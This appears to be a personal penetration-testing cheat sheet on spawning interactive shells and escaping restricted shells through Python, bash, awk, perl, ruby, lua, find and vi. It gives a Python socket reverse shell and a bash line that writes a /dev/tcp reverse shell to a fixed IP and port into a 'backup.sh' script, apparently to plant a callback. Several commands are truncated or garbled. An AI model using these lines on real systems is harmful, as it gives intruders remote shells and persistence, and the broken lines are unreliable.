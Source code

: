 ```yaml
---
tags: 🔻 🔻/shell
aliases: Hacking Notes
---
```


# Pseudo shell


The pty module let's you spawn a psuedo-terminal that can fool commands like su into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

## Python
#Python 

python -c 'import pty;pty.spawn("/bin/bash")'  
  
echo os.system('/bin/bash')  
  
/bin/sh -i 
  

### Spawning a TTY Shell - Break out of Jail or limited shell
  

python -c 'import pty; pty.spawn("/bin/bash")'  
PS1='\\e\[33;1m\\u@\\h: \\e\[31m\\W\\e\[0m\\$  


#!/usr/bin/python  
import socket,subprocess,os  
s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM)  
s.connect(('x.x.x.x  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
p=subprocess.call(\["/bin/sh","-i"\])  



python: exit\_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()  

# Bash


echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/10.11.13.142/5555 0>&1" >> backup.sh


#bash_shell

bash -i >& /dev/tcp/x.x.x.x  

echo os.system('/bin/bash')  

\`/bin/sh -i\`  

:! /bin/bash



# awk
#awk_shell

awk 'BEGIN {system("/bin/sh")}'  


find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \\;

# perl
#perl_shell

perl -e 'exec "/bin/bash";'  

perl: exec "/bin/sh";

# ruby
#ruby_shell

ruby: exec "/bin/sh"

# lua
#lua_shell

lua: os.execute('/bin/sh')  
  
lua: \`os.execute('/bin/sh')\`

# vi
#vim/vi_shell

open vi or vim and type:


## from vi

:set shell=/bin/bash  
Next, type and execute  
:shell  
  

## from vim



\`':!bash':\`



## from vi
\`:!bash\`